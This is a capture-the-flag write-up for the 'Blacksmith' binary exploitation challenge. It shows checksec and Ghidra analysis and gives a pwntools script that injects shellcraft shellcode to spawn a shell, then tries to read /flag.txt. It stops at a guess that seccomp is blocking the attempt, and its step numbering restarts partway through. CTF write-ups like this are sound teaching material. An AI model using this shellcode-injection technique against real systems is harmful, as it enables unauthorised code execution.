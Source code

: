 # Blacksmith
> Write-up author: jon-brandy
## DESCRIPTION:
You are the only one who is capable of saving this town and bringing peace upon this land! 
You found a blacksmith who can create the most powerful weapon in the world! You can find him under the label "./flag.txt".
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209630413-478b7d78-09af-4f9c-adb6-5639252b1a44.png)


2. Check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209630465-9cf4b060-c9ec-44bd-9436-09c5ee7bf3fd.png)


3. Since it's a binary file, now check the the binary's protection.

> RESULT - NX DISABLED (Means we can inject shellcode and is allowed to execute it)

![image](https://user-images.githubusercontent.com/70703371/209630701-82e94e29-1116-4e00-b851-0ab925d72e7b.png)


4. Let's decompile the binary using ghidra.

> RESULT - MAIN FUNCTION

![image](https://user-images.githubusercontent.com/70703371/209918543-54eae053-c967-46a9-b0fc-94e07cb27295.png)


5. Based from the `main()` function, we know that the program will prompts us an input.
6. If we input 1, then the program will print `&DAT_001012e0`, which allows us to choose another input.

![image](https://user-images.githubusercontent.com/70703371/209918798-9988c6f5-1c2a-4d90-9510-a948e7a4a395.png)


7. If we choose 2, the program will call the `shield()` function, 3 for the `bow()` function and 1 for the `sword()` function.

![image](https://user-images.githubusercontent.com/70703371/209918965-f1009b6a-0b41-4683-b1c6-a1015d91228a.png)


8. Let's deep dive to those 3 functions.

> SHIELD()

![image](https://user-images.githubusercontent.com/70703371/209919253-3f59e1e5-8dfd-4e5d-a975-84fa1cfa2a1f.png)


9. At the `shield()` we know that there's no bufferoverflow vuln, but we are given direct code execution.

![image](https://user-images.githubusercontent.com/70703371/209919389-24aa76b8-184b-4706-9d69-e36fef5d3a8a.png)


> BOW()

![image](https://user-images.githubusercontent.com/70703371/209919443-e50884ed-948b-4873-8fcb-7bcd6f38040f.png)


10. Nothing interesting here, let's check the `sword()` function.

> SWORD()

![image](https://user-images.githubusercontent.com/70703371/209919499-b22ae996-ccca-43b4-b32e-15541bd3e7d1.png)


11. Still the same, hence let's go back to the `shield()` function.
12. Now let's run `chmod` to the binary then run the it in gdb.

> RESULT - PRESS 1

![image](https://user-images.githubusercontent.com/70703371/209919782-bf81c2f4-74b0-487e-834e-398d96fd70c1.png)


13. Choose for the shield.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209919853-ef3c5cf4-19a9-4746-8c32-340ca4894418.png)


4. Input any strings.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209919925-188f792b-84e6-4e4b-a9fb-04ffe927c1aa.png)


5. Got segmentation fault here, it happens not because we overflowed the buffer, because what we enter will be executed as code which is not valid.
6. Hence our here is our temporary script.

> TEMPS SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './blacksmith'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

sh = start()

# we are using shellcraft, because it's just executing code.
shellcode = asm(shellcraft.sh())

sh.sendlineafter('>', b'1')
sh.sendlineafter('>', b'2')
sh.sendlineafter('>', flat(shellcode))

sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209923261-c7d55058-e321-45d1-ac03-acd3abc8b938.png)


7. Let's use `shellcraft.cat` since the desc said that the flag is under /flag.txt`. Change the **sh.interactive()** to this:

```py
getFlag = sh.recv()
success(getFlag)
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209923541-98fceec9-b681-45a8-94ac-e745172449b2.png)


8. Based from the output we got, i think there's `seccomp`.

> SECCOMP

```
Secure computing mode ( seccomp ) is a Linux kernel feature. You can use it to restrict the actions available within the container. The seccomp() system call operates on the seccomp state of the calling process. You can use this feature to restrict your application's access.
```



## LEARNING REFERENCES:

```
https://docs.docker.com/engine/security/seccomp/
```
